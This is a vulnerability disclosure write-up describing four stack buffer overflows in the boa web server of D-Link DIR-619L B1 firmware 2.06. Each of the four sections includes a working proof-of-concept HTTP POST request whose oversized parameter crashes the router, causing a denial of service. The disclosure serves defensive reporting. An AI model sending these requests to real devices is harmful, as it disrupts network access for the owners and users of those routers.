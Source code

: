 # DIR-619L Buffer Overflow

D-Link DIR-619L B1 2.06 was found to contain stack overflows in multiple functions in /bin/boa, This vulnerability allows attackers to trigger a denial of service (DoS) through web page parameters. The boa binary is responsible for serving http connection received by the device. 

firmware link: https://support.dlink.com/resource/products/DIR-619L/REVB/DIR-619L_REVB_FIRMWARE_PATCH_2.06.B01_WW.ZIP

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/06da0c59-fe71-4b6e-8f1d-72d321d00225)

## 1. formWPS Function

### **Vulnerability description**

The websGetVar function obtains the "webpage" parameter from the front-end, whitch is first assigned to the global variable by the strcpy function (as shown at line 23-24 of Figure 1), and then this global variable is finally passed to the sprintf function as an argument (as shown in Figure 2-4). However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/48670541-93c4-4996-8adb-3c156df6747b)

Figure 1

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/b608c2cf-026d-4e19-a64d-a78e851f7a77)

Figure 2

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/2c8c10ba-a04c-48bf-91fe-c2173d4ec860)

Figure 3

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/85f47264-a9ea-4032-b212-f978bd0fe718)

Figure 4

### **Reproduce and POC**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "webpage" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formWPS HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715050258057
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

webpage=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/d05e8280-4f12-4351-aac3-99d648ec1e9a)




## 2. formWlanSetup_Wizard Function

### **Vulnerability description**

The websGetVar function obtains the "webpage" parameter from the front-end, whitch is first assigned to the global variable by the strcpy function (as shown at line 32-34 of Figure 1), and then this global variable is assigned to the v16 by the strcpy function (as shown at line 46 of Figure 1). However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/6cac466b-5990-4a3a-80d6-fe98379131aa)

Figure 1

### **Reproduce and POC**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "webpage" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formWlanSetup_Wizard HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715051006529
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


webpage=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.
![image](https://github.com/YuboZhaoo/IoT/assets/154046274/eec8d872-3164-4fc4-9c64-73ce987b550e)



## 3. formWlanGuestSetup Function

The websGetVar function obtains the "webpage" parameter from the front-end, whitch is first assigned to the global variable by the strcpy function (as shown at line 89-92 of Figure 1), and then this global variable is passed into websRedirect function (as shown at line 490-492 of Figure 2), and finally it is passed to the sprintf function as an argument (same as the first vulnerability). 

However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.


![image](https://github.com/YuboZhaoo/IoT/assets/154046274/38840092-7ecc-46c2-812f-aa70205cc45b)

Figure 1

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/4080e473-81f5-47da-8681-187487260366)

Figure 2

### **Reproduce and POC**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "webpage" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formWlanGuestSetup HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715051493922
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

webpage=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.
![image](https://github.com/YuboZhaoo/IoT/assets/154046274/756e0039-450e-42eb-8c1a-69239a194088)



## 4. formTcpipSetup

The websGetVar function obtains the "curTime" parameter from the front-end (as shown at line 61 of Figure 1), and stores the data on the stack through the sprintf function (as shown at line 86-88 of Figure 1). However, due to the lack of data length restrictions, a buffer overflow vulnerability is created.

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/969c4f35-5f00-445b-b69b-7361ba6de285)

Figure 1

![image](https://github.com/YuboZhaoo/IoT/assets/154046274/7db6f033-31d8-46b9-9d79-76185b4102eb)

Figure 2

### **Reproduce and POC**
First connext to the DIR-691L real device or start frimware in QEMU. 

Use the default username and password to login web.

After logging in, attackers can send a long "curTime" parameter via the following malicious post request in Burpsuite or python: 

```
POST /goform/formTcpipSetup HTTP/1.1
Host: 192.168.0.1
Content-Length: 222
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Networkmap.asp?t=1715051676439
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

curTime=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Then the router crashed, a denial of service happened.
![image](https://github.com/YuboZhaoo/IoT/assets/154046274/343f2513-3038-4a14-8060-4994578b7f26)



